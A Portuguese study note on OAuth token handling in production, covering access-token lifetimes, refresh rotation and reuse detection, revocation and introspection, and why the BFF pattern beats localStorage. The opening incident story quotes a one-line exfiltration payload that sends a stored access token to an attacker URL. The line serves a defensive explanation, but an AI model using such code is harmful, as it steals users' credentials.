



# Tokens em produção

> [!abstract] TL;DR
> Ter o `access_token` na mão é o fim do fluxo em [[02 - Authorization Code + PKCE — o fluxo canônico|02]] — mas é só o começo do problema de produção. Access tokens vivem **minutos, não horas**, porque são bearer tokens (quem os possui, os usa) e não há como revogá-los individualmente sem quebrar a promessa de "stateless": a única defesa real contra um token vazado é ele expirar rápido. O **refresh token** resolve a UX (o usuário não reloga a cada 10 minutos), mas hoje é ele mesmo o alvo — por isso o OAuth 2.1 exige **rotation obrigatória** para public clients: cada uso emite um refresh novo e mata o anterior, e se o antigo (já morto) for usado de novo, isso é o sinal inequívoco de que alguém tem uma cópia roubada — a **família inteira** de tokens é revogada. Revogação de verdade tem dois mecanismos (RFC 7009 para "eu não quero mais este token"; RFC 7662 para o resource server perguntar "este token ainda vale?"), e nenhum dos dois resolve de graça o problema de um JWT já emitido e ainda não expirado — só encurtar o TTL e manter uma denylist de `jti` fecha essa brecha. No browser, a pergunta mais cara não é qual token usar, é **onde guardá-lo**: `localStorage` é acessível a qualquer script da página, então uma única vulnerabilidade de XSS exfiltra tudo; a resposta que virou consenso em 2026 é o padrão **BFF (Backend for Frontend)** — o navegador nunca vê o token, só um cookie `HttpOnly` de sessão, e a aplicação volta, ironicamente, para o mundo de sessões que o OAuth parecia ter deixado para trás.

> [!question]- Perguntas que esta nota responde
> - Por que o access token dura minutos e não horas — que trade-off isso resolve, e qual é o custo de errar pra qualquer lado?
> - O que é refresh token rotation, por que ela virou obrigatória, e como a detecção de reuse identifica um roubo?
> - Revogar um token (RFC 7009) e checar se ele ainda vale (RFC 7662) são a mesma coisa? Por que um JWT já emitido é difícil de matar antes da hora?
> - Onde guardar o token no browser, por que `localStorage` é considerado a pior opção, e o que o padrão BFF resolve que memória sozinha não resolve?

## O token que durou um mês

Em 2019, uma equipe de produto lançou uma SPA nova. O access token, por conveniência — "assim o usuário não precisa refazer login toda hora" —, foi configurado com `expires_in` de 24 horas, e a decisão óbvia de onde guardá-lo pareceu ser `localStorage`: sobrevive a reload de página, é trivial de usar (`localStorage.setItem`), e todo tutorial de SPA da época fazia exatamente isso. Meses depois, uma dependência de terceiros — uma biblioteca de analytics carregada via `<script>` de um CDN — foi comprometida, e o payload malicioso fez uma única linha de trabalho: `fetch('https://attacker.com/steal', {body: localStorage.getItem('access_token')})`. Não precisou de nenhum exploit sofisticado. O script rodava no mesmo contexto de execução da aplicação, com os mesmos privilégios — e `localStorage` não distingue "código da minha aplicação" de "qualquer script que consegui injetar na página"[^owasp-html5].

O token roubado tinha 24 horas de vida. Rodava sem fricção, sem MFA extra, sem checagem de IP incomum — porque nada na arquitetura tinha sido desenhado para detectar reuso. E não havia endpoint de revogação implementado, então mesmo depois que a equipe percebeu o vazamento (via um alerta de uso anômalo da API, não da própria autenticação), a única resposta possível foi esperar o token expirar sozinho — ou revogar o *refresh token* subjacente e forçar todo mundo a relogar, o que só funcionava porque, por sorte, o refresh token vivia em um cookie separado.

O erro nessa história não foi um bug de código. Foram três decisões de design, cada uma razoável isoladamente, que se somaram: token de vida longa (para evitar refresh frequente), guardado em local acessível a qualquer script (para evitar a complexidade de um backend intermediário), e nenhum mecanismo de revogação real (porque "o token expira sozinho" parecia suficiente). Esta nota é sobre desfazer essas três decisões — e sobre o que o mercado convergiu para substituí-las em 2026.

## Access token curto: o trade-off que ninguém quer admitir

Um access token é, na prática, um **bearer token**: quem o possui, o usa — não há assinatura por requisição, não há prova extra de identidade embutida no protocolo básico (isso é o que DPoP e mTLS tentam consertar, cobertos em [[04 - Grants de máquina e fluxos especiais|04]]). Isso significa que a única propriedade que limita o dano de um token vazado é **por quanto tempo ele continua valendo**.

> [!question]- Por que não simplesmente revogar o access token quando descobrir o vazamento?
> Porque, na maioria das implementações, o access token é um JWT **auto-contido**: o resource server valida a assinatura localmente, sem perguntar nada ao authorization server. É rápido — mas significa que não existe um "desligar" centralizado. Revogar exigiria ou (a) o resource server checar uma denylist a cada requisição, o que devolve a latência que o JWT existia para evitar, ou (b) esperar o token expirar. A RFC 9700 reconhece esse limite explicitamente: para tokens auto-contidos, "alguma interação de backend não padronizada entre o authorization server e o resource server pode ser usada quando revogação imediata é desejada" — ou seja, não existe solução padrão, só mitigação por TTL curto[^rfc7009-selfcontained].

A RFC 9700 (o *Security Best Current Practice*, sucessor consolidado da RFC 6819) recomenda que access tokens sejam **sender-constrained** (amarrados criptograficamente a quem os recebeu, via mTLS ou DPoP) **ou** tenham vida curta o suficiente para que o roubo valha pouco[^rfc9700-access]. Na prática de mercado, isso converge para uma faixa de **5 a 30 minutos** — bem longe das 24 horas do incidente acima, e também longe do outro extremo (segundos), que sobrecarregaria o authorization server com um volume de refreshes desnecessário[^obsidian-refresh].



Esse é o trade-off central da nota, e não tem resposta "certa" universal — é uma escolha de risco. Uma API bancária pode escolher 5 minutos e pagar o preço em requisições de refresh extras; um produto interno de baixo risco pode aceitar 30 minutos. O que **não** é aceitável, segundo o consenso pós-RFC 9700, é usar o mesmo raciocínio de "sessão web tradicional" (horas ou dias) para um bearer token que passa pela rede em cada chamada.

Em uma frase: **o access token curto não é paranoia — é a única ferramenta de revogação que um token auto-contido tem, porque ele mesmo é seu próprio prazo de validade.**

## Refresh token: por que public clients agora podem ter um — com proteção

Historicamente, refresh tokens eram um privilégio de *confidential clients* (backends que guardam um client secret): a lógica era que só quem consegue provar identidade de forma persistente merece um token de longa duração para renovar acesso sem reautenticar o usuário. Public clients (SPAs, apps mobile) não tinham como guardar esse segredo — então, ou não recebiam refresh token, ou recebiam um com vida bem curta e sem muita proteção adicional.

O PKCE (visto em [[02 - Authorization Code + PKCE — o fluxo canônico|02]]) mudou esse cálculo: ele já prova, na troca do código pelo token, que quem está pedindo o token é quem iniciou o fluxo. Isso deu ao mercado confiança suficiente para estender refresh tokens a public clients também — mas com uma condição que o OAuth 2.1 tornou **obrigatória**: a RFC 9700 declara que "refresh tokens para clientes públicos DEVEM ser sender-constrained ou usar refresh token rotation"[^rfc9700-refresh]. Sem uma dessas duas proteções, um refresh token de vida longa em mãos de um public client (que não pode guardar segredo nenhum) seria simplesmente um alvo mais valioso e mais fácil de roubar que o próprio access token.

Repare no "ou": a RFC não exige as duas coisas, exige uma. **Sender-constraining** (amarrar o refresh token, via mTLS ou DPoP, a uma chave criptográfica que só o client legítimo possui) é a alternativa à rotation — em vez de detectar o roubo depois que ele acontece, ela torna o token roubado inútil sozinho, porque quem o copiar ainda não tem a chave privada correspondente. É uma garantia mais forte, mas exige infraestrutura que nem todo client tem (gestão de par de chaves no dispositivo, suporte do AS a DPoP/mTLS) — por isso, na prática, **rotation é a escolha default** para a maioria dos public clients, e sender-constraining fica reservado para cenários de risco mais alto ou onde a infraestrutura já existe por outro motivo. O mecanismo completo de DPoP e mTLS — como a chave é gerada, como a prova de posse é anexada a cada requisição — é aprofundado em [[04 - Grants de máquina e fluxos especiais|04]]; aqui importa só saber que rotation não é a única resposta possível, é a mais acessível.

### Rotation: cada uso emite um novo e mata o anterior

**Refresh token rotation** funciona assim: toda vez que o client troca um refresh token por um novo access token, o authorization server devolve, junto, um **refresh token novo** — e invalida imediatamente o antigo. O client precisa descartar o token velho e passar a usar só o novo a partir dali[^auth0-rotation].

Isso parece só burocracia extra até você perguntar: o que acontece se um atacante roubar uma cópia do refresh token — via um log, um dispositivo comprometido, ou (voltando ao incidente de abertura) uma exfiltração de storage acessível — e o client legítimo continuar usando o dele normalmente?

### Reuse detection: o sinal de que algo foi roubado

Aqui está o mecanismo que torna a rotation mais que teatro de segurança. Se o refresh token é de uso único (cada troca invalida o anterior), então **duas tentativas de usar o mesmo refresh token** só podem significar uma coisa: alguém tem uma cópia que não deveria ter. A primeira tentativa (de quem quer que chegue primeiro — atacante ou client legítimo) sucede normalmente e recebe um token novo. A segunda tentativa, usando o token que já foi consumido, falha — e é essa falha que o authorization server trata como **sinal de comprometimento**, não como erro trivial de concorrência[^okta-reuse].

A resposta correta a esse sinal não é só rejeitar a segunda tentativa: é revogar **toda a família de tokens** derivada daquele fluxo de autenticação original — todo refresh token e todo access token descendente daquela cadeia de rotations, mesmo os que ainda não expiraram. A RFC 9700 é explícita: revogação por reuse "deve invalidar toda a família de tokens, não só o token atual, para prevenir que atacantes usem tokens previamente rotacionados mas ainda em cache"[^scalekit-family]. A Okta documenta esse comportamento publicamente com um evento de log dedicado (`app.oauth2.as.token.detect_reuse`), e o Auth0 expõe uma janela de tolerância configurável (*rotation overlap period*) para não confundir reuse malicioso com problemas legítimos de concorrência de rede (ex.: o client reenvia a mesma requisição por timeout, sem ter recebido a resposta original)[^auth0-overlap].

```mermaid
%%{init: {"theme": "base", "themeVariables": {"primaryColor": "#4A90D9", "primaryBorderColor": "#2E5C8A", "lineColor": "#D0021B"}}}%%
sequenceDiagram
    participant Atk as Atacante<br/>(cópia roubada de RT1)
    participant C as Client legítimo
    participant AS as Authorization Server

    Note over C,AS: Estado inicial: RT1 é válido (família F)
    Atk->>AS: POST /token refresh_token=RT1
    AS-->>Atk: access_token + RT2 (RT1 invalidado)
    Note over AS: Família F agora aponta pra RT2

    C->>AS: POST /token refresh_token=RT1<br/>(client não sabe que já foi usado)
    AS->>AS: RT1 já consumido!<br/>= sinal de reuse
    AS-->>C: 400 invalid_grant
    AS->>AS: Revoga TODA a família F<br/>(RT2, access tokens derivados)

    Note over Atk,C: Resultado: atacante E client legítimo<br/>ficam sem acesso — força reautenticação

    style Atk fill:#D0021B,color:#fff
```

O detalhe que costuma passar despercebido: **os dois lados perdem acesso**, atacante e vítima. Isso é intencional — o sistema não tem como distinguir quem é quem só olhando o reuse; a resposta segura é sempre forçar reautenticação completa, que reestabelece a cadeia de confiança do zero.

## Exemplo trabalhado: a mesma cópia roubada, dois desfechos

Para tornar o mecanismo tangível, seguimos a mesma situação de partida — um refresh token vazado, digamos via um log de proxy mal configurado — em dois cenários: um sistema **sem** rotation nem reuse detection, e um **com**.

**Cenário A — sem rotation (refresh token estático, válido por 30 dias).**

| Dia | Evento |
|---|---|
| 0 | Refresh token vaza (log de proxy). Atacante o copia. |
| 0-30 | Atacante usa o token livremente, em paralelo ao usuário legítimo, gerando access tokens novos sempre que precisa. Nada no sistema distingue as duas origens — mesmo token, mesmas permissões. |
| 30 | Token expira naturalmente. Só então o acesso do atacante cessa — se ninguém notou antes. |

Trinta dias de acesso irrestrito, sem nenhum sinal automático de alarme. A detecção, se acontecer, depende de monitoramento externo (IP incomum, padrão de uso anômalo) — nada no protocolo em si aponta o problema.

**Cenário B — com rotation + reuse detection (refresh token de uso único).**

| Evento | Resultado |
|---|---|
| Token vaza. Atacante usa primeiro. | Recebe access token + RT novo. RT antigo (o vazado) já está morto. |
| Usuário legítimo tenta usar o RT que ele guardou (o mesmo que vazou, agora já consumido). | `400 invalid_grant` — reuse detectado. |
| Authorization server revoga a família inteira. | Atacante **e** usuário legítimo perdem acesso imediatamente. |
| Usuário legítimo reautentica (login completo). | Nova família de tokens, desconectada da comprometida. Atacante fica de fora — não tem como acompanhar uma reautenticação completa sem as credenciais originais. |

A janela de exposição, no cenário B, é limitada a **um único uso não detectado** — o tempo entre o roubo e a primeira tentativa de qualquer uma das partes usar o token, não trinta dias. É essa diferença de ordem de grandeza que torna rotation + reuse detection não-opcional para qualquer client que lida com refresh tokens de vida longa.

## Revogação: RFC 7009 e o problema do que já foi emitido

O **revocation endpoint** (RFC 7009) dá ao client um jeito explícito de dizer "não preciso mais deste token" — tipicamente disparado no logout. É uma chamada simples: `POST /revoke` com o token e um `token_type_hint` opcional (`access_token` ou `refresh_token`)[^rfc7009]. A implementação **deve** suportar revogação de refresh tokens e **deveria** suportar revogação de access tokens; e, crucialmente, revogar um refresh token **deveria** também invalidar todos os access tokens emitidos a partir dele — a mesma lógica de "família" da reuse detection, aplicada a uma revogação voluntária em vez de forçada[^rfc7009-cascade].

O buraco que RFC 7009 não fecha sozinha: se o access token é um JWT auto-contido, e um resource server valida a assinatura localmente sem consultar o authorization server, **revogar o token no AS não impede que o RS continue aceitando ele** até expirar — o RS simplesmente não sabe que a revogação aconteceu. Isso é a mesma limitação discutida na seção de TTL: não existe solução padronizada de propagação instantânea para tokens auto-contidos; a RFC 9700 reconhece o problema e deixa a solução como "interação de backend não padronizada"[^rfc7009-selfcontained].

Na prática, isso se resolve com duas táticas combinadas — e é aqui que esta nota se encontra com [[03 - JWT e a família de tokens|03]], que cobre a anatomia do JWT em detalhe:

1. **TTL curto** (a defesa de primeira linha, já discutida) — limita o tempo em que uma revogação "não propagada" ainda importa.
2. **Denylist de `jti`** — cada JWT carrega um identificador único (`jti`); ao revogar, o authorization server (ou um serviço compartilhado) grava esse `jti` numa lista de bloqueio com TTL igual ao tempo restante de vida do token, e o resource server checa essa lista antes de aceitar. Isso reintroduz uma consulta por requisição — o mesmo custo que o JWT existia para evitar — mas numa lista pequena (só tokens revogados, não todos), geralmente em Redis, com checagens sub-milissegundo[^techinterview-jti].

A combinação é honesta sobre seu próprio limite: ela não elimina o problema, reduz a janela dele a "o tempo que falta pro TTL curto expirar" — que, se o TTL já é de 5-15 minutos, é uma janela pequena o suficiente para a maioria dos modelos de ameaça aceitarem sem denylist alguma, reservando a denylist para casos de alto risco (ex.: comprometimento de conta confirmado, onde vale a pena pagar a consulta extra).

## Introspection (RFC 7662): perguntar ao AS se o token ainda vale

Enquanto RFC 7009 é "eu não quero mais este token" (perspectiva do client), a **RFC 7662 (Token Introspection)** resolve um problema diferente: o do **resource server**, que recebeu um token opaco e precisa saber o que ele autoriza — porque, sendo opaco, não há nada para decodificar localmente[^rfc7662]. O RS faz `POST /introspect` com o token, e o authorization server devolve um JSON com `active: true/false`, os scopes concedidos, o `client_id` original, expiração, e outros metadados[^rfc7662-meta].

A vantagem central da introspection sobre validação local de JWT é **revogação instantânea de verdade**: como o RS pergunta ao AS a cada requisição (ou a cada janela de cache), uma revogação no AS é visível no próximo `active: false` — sem esperar TTL nenhum. O preço é o mesmo de qualquer chamada de rede: latência (tipicamente 10-50ms ou mais por requisição, dependendo de região e carga) e uma dependência nova — o AS vira ponto único de disponibilidade para toda validação de token, algo que um JWT auto-validado nunca teria[^curity-phantom].

**Cache de introspection** é a mitigação de mercado: o RS guarda o resultado por alguns segundos (não minutos) antes de perguntar de novo. Isso reduz a carga no AS, mas reabre — em escala reduzida — o mesmo buraco da denylist: um token revogado no meio da janela de cache continua sendo aceito até o cache expirar. É uma troca deliberada entre "revogação instantânea de verdade" (sem cache, custo de latência total) e "revogação quase-instantânea" (com cache de poucos segundos, custo de latência amortizado)[^mojoauth-introspection].

## Opaque vs JWT no resource server: tabela de decisão honesta

Não existe resposta universal — "JWT sempre" é o discurso de quem nunca operou um sistema com revogação crítica em produção. A escolha depende do que o modelo de ameaça e a topologia do sistema exigem.

| Critério | JWT auto-contido | Opaque + introspection |
|---|---|---|
| Latência por requisição | Baixa — validação local (assinatura) | Mais alta — round trip ao AS (ou cache) |
| Revogação | Só via TTL curto + denylist (aproximada) | Instantânea (sem cache) ou quase-instantânea (com cache) |
| Dependência de disponibilidade do AS | Nenhuma no caminho quente | O AS vira dependência crítica de todo request |
| Escala/regiões distantes do AS | Favorável — sem chamada cross-region | Desfavorável — cada request paga a distância até o AS |
| Tamanho do token / overhead de rede | Maior (payload + assinatura) | Menor — só um identificador opaco |
| Superfície de dados no token | Claims visíveis a quem interceptar (a menos que criptografado — JWE) | Nada visível fora do AS |
| Caso de uso típico | APIs de alto volume, multi-região, tolerantes a TTL curto | Sistemas onde revogação instantânea é requisito (ex.: financeiro, saúde) ou onde o RS não pode/deve inspecionar claims |

O padrão híbrido que mais aparece em sistemas maduros combina os dois: **access tokens JWT de vida curta** para o caminho quente (validação local, rápida, sem round trip) e **refresh tokens opacos** de vida mais longa, guardados e controlados inteiramente pelo authorization server — o JWT ganha na velocidade onde ela importa (cada chamada de API), e o refresh token opaco ganha no controle onde ele importa (o único artefato de longa duração no sistema)[^curity-phantom].

## Casos práticos

A tabela acima é abstrata; vale ver como duas organizações reais, com modelos de ameaça opostos, chegam a decisões opostas — e por quê nenhuma das duas está "errada".

### Cenário 1: fintech com requisito regulatório de revogação instantânea

Um banco digital opera uma API de pagamentos onde o time de compliance exige que, ao suspender uma conta por suspeita de fraude, **todo acesso pare em segundos**, não minutos. Um JWT auto-validado, mesmo com TTL de 5 minutos, deixa uma janela de até 5 minutos em que o resource server continuaria aceitando o token de uma conta já suspensa — inaceitável para esse modelo de ameaça.

A decisão foi usar **tokens opacos com introspection RFC 7662 sem cache** no fluxo de pagamento (aceitando o custo de latência — na casa de poucos milissegundos, absorvível porque o AS roda na mesma região) e reservar JWT auto-validado só para endpoints de baixo risco (ex.: consulta de saldo em cache, onde um atraso de revogação de minutos é tolerável). A escolha não foi "opaco é mais seguro, ponto" — foi mapear cada endpoint ao seu próprio requisito de revogação e aceitar o custo de latência só onde o risco justifica.

### Cenário 2: SaaS B2B global, multi-região, alto volume

Uma plataforma de colaboração atende clientes em três continentes, com resource servers replicados por região para reduzir latência de rede. Introspection RFC 7662 a cada requisição significaria todo request cruzando região até o authorization server central — exatamente a latência cross-region que a replicação multi-região existia para evitar.

A decisão foi **access tokens JWT de vida curta (10 minutos) validados localmente em cada região**, combinados com o padrão **BFF**: o navegador do usuário nunca vê o token, e o BFF de cada região troca refresh tokens opacos pelo access token JWT via chamada ao AS central — uma chamada por refresh (a cada 10 minutos), não uma por requisição de API. Revogação de conta comprometida usa a rota de refresh token rotation: ao detectar reuse ou revogar manualmente, a próxima tentativa de refresh falha, e o JWT em circulação expira sozinho dentro de, no máximo, 10 minutos — um trade-off que o time considerou aceitável porque a maior parte do tráfego é leitura de baixo risco (documentos compartilhados, não transações financeiras).

Os dois casos usam exatamente os mesmos mecanismos descritos nesta nota — só chegam a pesos diferentes na balança latência-vs-revogação porque o custo de errar é diferente em cada um.

## Onde guardar o token no browser: o ranking que ninguém quer aceitar

Toda essa engenharia de rotation, reuse detection e revogação vira irrelevante se o atacante não precisa roubar o token de forma sofisticada — só ler onde ele está guardado. E aqui a hierarquia de risco é bem mais simples do que o resto da nota sugere.

**`localStorage` / `sessionStorage` / IndexedDB são a pior opção.** Essas APIs são acessíveis a **qualquer código JavaScript rodando na origem** — não existe isolamento entre "código da sua aplicação" e "código que um atacante conseguiu injetar via XSS". O OWASP é direto: "não armazene identificadores de sessão, tokens de autenticação, JWTs, refresh tokens ou qualquer credencial em `localStorage` ou `sessionStorage`"[^owasp-html5-storage]. Uma única vulnerabilidade de XSS — em qualquer lugar da aplicação, ou em qualquer dependência de terceiros carregada na mesma página — expõe todos os tokens ali guardados, exatamente como no incidente de abertura desta nota.

**Memória (uma variável JS, nunca persistida) é melhor, mas não é grátis.** Um token só na memória do processo não sobrevive a reload de página nem é acessível via APIs de storage — reduz a superfície de ataque a "malware/extensão rodando no mesmo processo" ou "XSS ativo no momento exato". Mas o preço é UX: qualquer refresh de página, fechamento de aba, ou navegação perde o token, forçando reautenticação ou um fluxo de "silent refresh" (histórico, hoje desaconselhado por depender de iframes de terceiros e cookies que navegadores modernos restringem cada vez mais).

**Cookie `HttpOnly` é o padrão-ouro — mas só funciona com um backend por trás.** Um cookie marcado `HttpOnly` é **inacessível a JavaScript**, ponto final — nenhum XSS, por mais grave, consegue ler seu valor via `document.cookie`. Combinado com `Secure` (só HTTPS) e `SameSite=Strict` ou `Lax` (mitiga CSRF), é a defesa mais forte disponível no navegador hoje[^owasp-html5-storage]. O problema: uma SPA pura, sem backend, não tem como *setar* um cookie `HttpOnly` para si mesma — só um servidor pode fazer isso no header `Set-Cookie` de uma resposta. É exatamente essa limitação que leva ao padrão da próxima seção.



## O padrão BFF: o consenso de 2026 para SPAs

O **IETF draft-ietf-oauth-browser-based-apps** (revisão 27, julho de 2026) formaliza o que a indústria já vinha convergindo informalmente desde os primeiros "token handler patterns" da Curity e do padrão BFF do Auth0: ele descreve três arquiteturas possíveis para apps browser-based e recomenda explicitamente uma delas[^draft-bba].

1. **Backend For Frontend (BFF)** — um componente de backend assume **toda** a responsabilidade OAuth: ele é o confidential client, roda o Authorization Code + PKCE inteiro, guarda os tokens no servidor, e faz proxy de **todas** as chamadas de API entre o browser e o resource server. O browser não vê token nenhum, só um cookie de sessão `HttpOnly`.
2. **Token-Mediating Backend** — um backend mais leve obtém os tokens (como confidential client) mas **entrega o access token para o browser**, que passa a chamar o resource server diretamente. Menos proxy, mas o token volta a estar acessível a JavaScript.
3. **Browser-based OAuth 2.0 Client** — o próprio browser é o client público, sem backend algum de apoio: obtém e guarda tokens inteiramente do lado do cliente.

O draft é explícito sobre qual escolher: recomenda o padrão BFF como **"fortemente recomendado para aplicações de negócio, aplicações sensíveis e aplicações que lidam com dados pessoais"**, porque ele garante que "a superfície de ataque da aplicação não aumenta pelo uso de OAuth" — o token nunca atravessa o navegador, então XSS deixa de ser um vetor de roubo de token (continua sendo um problema para outras coisas, mas não para essa)[^draft-bba-recommend].



A ironia estrutural que vale nomear: depois de todo o esforço do OAuth para tirar o token do navegador e do JWT para permitir validação stateless, o padrão de produção recomendado em 2026 devolve o browser para o **mesmo modelo de cookie de sessão `HttpOnly`** que [[02 - Sessões e cookies — auth stateful|02]] descreve para auth tradicional. O OAuth não desapareceu — ele só migrou inteiro para dentro do backend, e o que sobra pro navegador é exatamente o padrão anterior ao OAuth: um cookie opaco que o browser não entende e não precisa entender. A complexidade do protocolo não some; ela só é redistribuída para onde pode ser mais bem controlada.

### Service workers e web workers: mitigação parcial, não solução

Antes de aceitar o BFF como única resposta, vale nomear uma alternativa que aparece com frequência em discussões de SPA "pura": guardar o token na memória de um **Service Worker** ou **Web Worker**, isolado do contexto de execução principal da página. O próprio draft do IETF trata esse padrão em seção dedicada (7.4, "Handling the OAuth Flow in a Service Worker") e o classifica entre os **"discouraged and deprecated architecture patterns"**[^draft-bba-sw]. A isolação é real — um worker roda em contexto separado — mas incompleta: "código malicioso rodando no contexto de execução da aplicação ainda pode abusar dos tokens" enviando mensagens para o worker e recebendo de volta o resultado de operações que exigem o token, mesmo sem nunca ler o valor bruto[^draft-bba-sw]. Isso reduz o dano (o atacante não consegue exfiltrar o token para levar embora, só abusar dele enquanto a página está ativa), mas não elimina o vetor — e adiciona complexidade de implementação considerável. Para a maioria dos times, o BFF entrega uma garantia mais simples de raciocinar e mais forte na prática; workers ficam como nota de rodapé para quem tem restrições reais de infraestrutura contra rodar um backend.

## Armadilhas comuns

> [!warning] Guardar qualquer token em localStorage "porque é mais simples"
> **O que acontece:** o time escolhe `localStorage` para o access token (e às vezes o refresh token também) porque é a opção de menor fricção de implementação — persiste entre reloads, sem precisar de backend.
> **Por quê:** `localStorage` é acessível a qualquer JavaScript executando na origem, sem exceção. Uma única vulnerabilidade de XSS — inclusive em uma dependência de terceiros, não necessariamente no seu próprio código — expõe todos os tokens ali guardados de uma vez.
> **Como evitar:** adotar o padrão BFF (cookie `HttpOnly`) sempre que houver capacidade de manter um backend; se for genuinamente inviável, usar memória (nunca storage persistente) e aceitar o custo de UX de perder o token no reload.

> [!warning] Access token com TTL de horas "para reduzir refresh"
> **O que acontece:** para simplificar a implementação do client (menos lógica de refresh) ou reduzir carga no authorization server, o TTL do access token é configurado para várias horas ou um dia inteiro.
> **Por quê:** um access token bearer, sem sender-constraining, não tem defesa própria contra roubo além de expirar. Cada hora extra de validade é uma hora extra em que um token vazado (via log, proxy, XSS, dispositivo comprometido) continua funcionando plenamente, sem nenhum sinal de alarme automático.
> **Como evitar:** manter o access token na faixa de 5 a 30 minutos (RFC 9700), e resolver a "fricção do refresh" com refresh token rotation em vez de alongar o access token — é uma troca de risco muito mais favorável.

> [!warning] Refresh token sem rotation, mesmo em public client
> **O que acontece:** o client (uma SPA ou app mobile) recebe um refresh token de vida longa (dias ou semanas) que nunca muda — o mesmo token é reutilizado em todo refresh, do início ao fim da sua validade.
> **Por quê:** sem rotation, um refresh token vazado uma única vez fica utilizável pelo atacante durante toda sua vida útil, em paralelo ao uso legítimo, sem nenhum mecanismo automático capaz de perceber a duplicidade — como visto no Cenário A do exemplo trabalhado acima.
> **Como evitar:** implementar rotation obrigatória (RFC 9700, exigida pelo OAuth 2.1 para public clients) com detecção de reuse e revogação de família em caso de reuso detectado.

> [!warning] Denylist de JWT sem TTL (crescimento ilimitado)
> **O que acontece:** a lista de `jti` revogados é gravada sem expiração — ou com uma expiração desalinhada do TTL real do token —, então ela só cresce, indefinidamente, consumindo memória/armazenamento do serviço de denylist.
> **Por quê:** o propósito da denylist é cobrir a janela entre a revogação e a expiração natural do token; depois que o token expiraria de qualquer forma, mantê-lo na lista não agrega segurança nenhuma, só custo.
> **Como evitar:** gravar cada entrada de denylist com TTL igual ao tempo restante de vida do token revogado (não um TTL fixo arbitrário), para que a lista se autolimpe e permaneça pequena — prática documentada em implementações de referência com Redis[^techinterview-jti].

## Em entrevista

Entrevistadores sêniores raramente perguntam "o que é um refresh token" isoladamente — a pergunta real é "como você desenharia o ciclo de vida de tokens para não repetir os erros que a indústria já cometeu publicamente". O sinal que se busca aqui é a mesma lógica de defesa em profundidade do resto do OAuth: TTL curto limita o dano de qualquer token vazado; rotation + reuse detection transforma um roubo silencioso em um evento detectável; e a escolha de onde guardar o token no browser decide se XSS é "só" um problema de UI ou também um roubo de credenciais.

Uma resposta fraca lista os mecanismos sem conectá-los a uma ameaça: "uso refresh token, com rotation, e guardo em cookie." Uma resposta forte nomeia o ataque que cada peça fecha.

> **Entrevistador:** "Por que vocês migraram de localStorage para um padrão BFF? Isso não é só complexidade extra pra pouco ganho?"
>
> **Resposta fraca:** "Porque localStorage não é seguro e cookie é melhor."
>
